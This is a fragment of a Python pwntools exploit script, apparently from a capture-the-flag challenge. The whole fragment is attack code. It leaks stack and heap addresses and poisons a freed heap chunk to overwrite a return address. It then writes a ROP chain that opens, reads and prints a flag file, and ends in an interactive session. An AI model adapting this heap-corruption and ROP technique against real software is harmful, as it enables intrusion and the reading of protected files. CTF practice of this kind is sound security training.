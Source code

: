 ```python
show(10)
p.recvuntil("Content: ")

stack_leak = u64(p.recvline()[:-1].ljust(8, '\x00'))
log.info("Stack leak: {}".format(hex(stack_leak)))
ret_addr = stack_leak - 0x120
log.info("Ret addr: {}".format(hex(ret_addr)))

alloc(11, 0xf8)
alloc(12, 0xf8)
free(12)
free(11)
edit(11, p64(ret_addr))

alloc(13, 0xf8)
alloc(14, 0xf8)
edit(13, '/home/lilac/flag.txt\x00')

show(4)
p.recvuntil("Content: ")

heap_leak = u64(p.recvline()[:-1].ljust(8, '\x00'))
log.info("Heap leak: {}".format(hex(heap_leak)))
flag_loc = heap_leak + 0x360
log.info("Flag loc: {}".format(hex(flag_loc)))

payload = ''
payload += p64(pop_rdi)
payload += p64(flag_loc)
payload += p64(pop_rsi)
payload += p64(0)
payload += p64(pop_rdx_rbx)
payload += p64(0) * 2
payload += p64(pop_rcx)
payload += p64(0)
payload += p64(pop_rax)
payload += p64(2)
payload += p64(syscall)

payload += p64(pop_rdi)
payload += p64(3)
payload += p64(pop_rsi)
payload += p64(flag_loc)
payload += p64(pop_rdx_rbx)
payload += p64(0x100) * 2
payload += p64(libc_read)

payload += p64(pop_rdi)
payload += p64(flag_loc)
payload += p64(libc_puts)

edit(14, payload)


p.interactive()
```
